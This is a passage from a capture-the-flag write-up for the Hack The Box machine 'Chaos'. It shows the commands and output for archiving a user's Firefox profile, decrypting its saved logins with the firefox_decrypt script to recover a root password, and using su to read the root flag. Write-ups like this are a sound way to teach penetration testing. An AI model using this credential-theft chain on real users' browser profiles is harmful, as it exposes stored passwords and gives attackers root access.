We can tar-compress ayush's entire firefox profile directory, and send it to our machine using netcat: 
    
    
      **ayush@chaos:~/.mozilla/firefox$ tar -zcvf ayush.tar.gz bzo7sjt1.default**
      tar -zcvf ayush.tar.gz bzo7sjt1.default
      bzo7sjt1.default/
      bzo7sjt1.default/cookies.sqlite
      bzo7sjt1.default/places.sqlite
      bzo7sjt1.default/webappsstore.sqlite
      bzo7sjt1.default/permissions.sqlite
      bzo7sjt1.default/sessionstore-backups/
      tar: bzo7sjt1.default/sessionstore-backups/recovery.js: Cannot open: Permission denied
      tar: bzo7sjt1.default/sessionstore-backups/upgrade.js-20180326230345: Cannot open: Permission denied
      tar: bzo7sjt1.default/sessionstore-backups/previous.js: Cannot open: Permission denied
      tar: bzo7sjt1.default/sessionstore-backups/recovery.bak: Cannot open: Permission denied
      bzo7sjt1.default/bookmarkbackups/
      tar: bzo7sjt1.default/bookmarkbackups/bookmarks-2018-09-29_23_KNEJR-waZJZwUVshUNhFqg==.jsonlz4: Cannot open: Permission denied
      tar: bzo7sjt1.default/bookmarkbackups/bookmarks-2018-10-27_24_0UTpOFh1V6tsL2fi6cyvng==.jsonlz4: Cannot open: Permission denied
      bzo7sjt1.default/cookies.sqlite-wal
      bzo7sjt1.default/formhistory.sqlite
      bzo7sjt1.default/webappsstore.sqlite-shm
      bzo7sjt1.default/storage.sqlite
      bzo7sjt1.default/cert_override.txt
      bzo7sjt1.default/gmp/
      tar: bzo7sjt1.default/gmp/Linux_x86_64-gcc3: Cannot open: Permission denied
      bzo7sjt1.default/blocklist.xml
      bzo7sjt1.default/cookies.sqlite-shm
      bzo7sjt1.default/search.json.mozlz4
      bzo7sjt1.default/AlternateServices.txt
      bzo7sjt1.default/content-prefs.sqlite
      bzo7sjt1.default/cert9.db
      bzo7sjt1.default/storage/
      bzo7sjt1.default/storage/temporary/
      bzo7sjt1.default/storage/default/
      bzo7sjt1.default/storage/default/https+++www.google.com/
      bzo7sjt1.default/storage/default/https+++www.google.com/.metadata-v2
      bzo7sjt1.default/storage/default/https+++www.google.com/idb/
      bzo7sjt1.default/storage/default/https+++www.google.com/idb/548905059db.sqlite
      bzo7sjt1.default/storage/default/https+++www.google.com/idb/548905059db.files/
      bzo7sjt1.default/storage/default/https+++www.google.com/.metadata
      bzo7sjt1.default/storage/permanent/
      bzo7sjt1.default/storage/permanent/chrome/
      bzo7sjt1.default/storage/permanent/chrome/.metadata-v2
      bzo7sjt1.default/storage/permanent/chrome/idb/
      bzo7sjt1.default/storage/permanent/chrome/idb/2918063365piupsah.sqlite
      bzo7sjt1.default/storage/permanent/chrome/idb/2918063365piupsah.files/
      bzo7sjt1.default/storage/permanent/chrome/.metadata
      bzo7sjt1.default/datareporting/
      tar: bzo7sjt1.default/datareporting/session-state.json: Cannot open: Permission denied
      tar: bzo7sjt1.default/datareporting/state.json: Cannot open: Permission denied
      tar: bzo7sjt1.default/datareporting/archived: Cannot open: Permission denied
      tar: bzo7sjt1.default/datareporting/aborted-session-ping: Cannot open: Permission denied
      bzo7sjt1.default/pkcs11.txt
      bzo7sjt1.default/logins.json
      bzo7sjt1.default/extensions.ini
      bzo7sjt1.default/compatibility.ini
      bzo7sjt1.default/minidumps/
      bzo7sjt1.default/blocklist-gfx.json
      bzo7sjt1.default/.parentlock
      bzo7sjt1.default/sessionCheckpoints.json
      bzo7sjt1.default/prefs.js
      bzo7sjt1.default/addons.json
      bzo7sjt1.default/xulstore.json
      bzo7sjt1.default/revocations.txt
      bzo7sjt1.default/extensions.json
      bzo7sjt1.default/places.sqlite-shm
      bzo7sjt1.default/key4.db
      bzo7sjt1.default/crashes/
      tar: bzo7sjt1.default/crashes/events: Cannot open: Permission denied
      tar: bzo7sjt1.default/crashes/store.json.mozlz4: Cannot open: Permission denied
      bzo7sjt1.default/pluginreg.dat
      bzo7sjt1.default/places.sqlite-wal
      bzo7sjt1.default/webappsstore.sqlite-wal
      bzo7sjt1.default/blocklist-plugins.json
      bzo7sjt1.default/kinto.sqlite
      bzo7sjt1.default/times.json
      bzo7sjt1.default/saved-telemetry-pings/
      tar: bzo7sjt1.default/saved-telemetry-pings/f153dbe5-b2e1-46ad-bb38-d0d2e22ab3fe: Cannot open: Permission denied
      tar: bzo7sjt1.default/saved-telemetry-pings/dc2f3e22-3710-4da9-9d30-c01f0885a480: Cannot open: Permission denied
      tar: bzo7sjt1.default/saved-telemetry-pings/b35e9f24-a4a9-4683-b4ec-1fdaf3533a7a: Cannot open: Permission denied
      bzo7sjt1.default/mimeTypes.rdf
      bzo7sjt1.default/containers.json
      bzo7sjt1.default/SecurityPreloadState.txt
      bzo7sjt1.default/SiteSecurityServiceState.txt
      bzo7sjt1.default/blocklist-addons.json
      tar: Exiting with failure status due to previous errors
      ayush@chaos:~/.mozilla/firefox$ ls
      ls
       **ayush.tar.gz**   bzo7sjt1.default  'Crash Reports'   profiles.ini
    

Transfer it using netcat and verify they are the same using md5sum: 

From there we can use [unode's](https://github.com/unode/firefox_decrypt) firefox_decrypt python script to extract passwords from mozilla profiles:
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ tar -xzvf ayush.tar.gz
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ curl -sk https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py > firefox_decrypt.py
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ python firefox_decrypt.py bzo7sjt1.default
      2020-04-02 13:37:14,021 - WARNING - profile.ini not found in bzo7sjt1.default
      2020-04-02 13:37:14,022 - WARNING - Continuing and assuming 'bzo7sjt1.default' is a profile location
    
      Master Password for profile bzo7sjt1.default:
    
    

Use ayush's password 'jiujitsu': 
    
    
      2020-04-02 13:37:14,021 - WARNING - profile.ini not found in bzo7sjt1.default
      2020-04-02 13:37:14,022 - WARNING - Continuing and assuming 'bzo7sjt1.default' is a profile location
    
      Master Password for profile bzo7sjt1.default:
    
      Website:   https://chaos.htb:10000
      Username: 'root'
      Password: 'Thiv8wrej~'
    

And there we have it ! we can finally privesc to root : 
    
    
      ayush@chaos:~/.mozilla/firefox$ cd /
      cd /
      ayush@chaos:/$ su -l root
      su -l root
      Password: Thiv8wrej~
    
      root@chaos:~# cat root.txt
      cat root.txt
      4eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

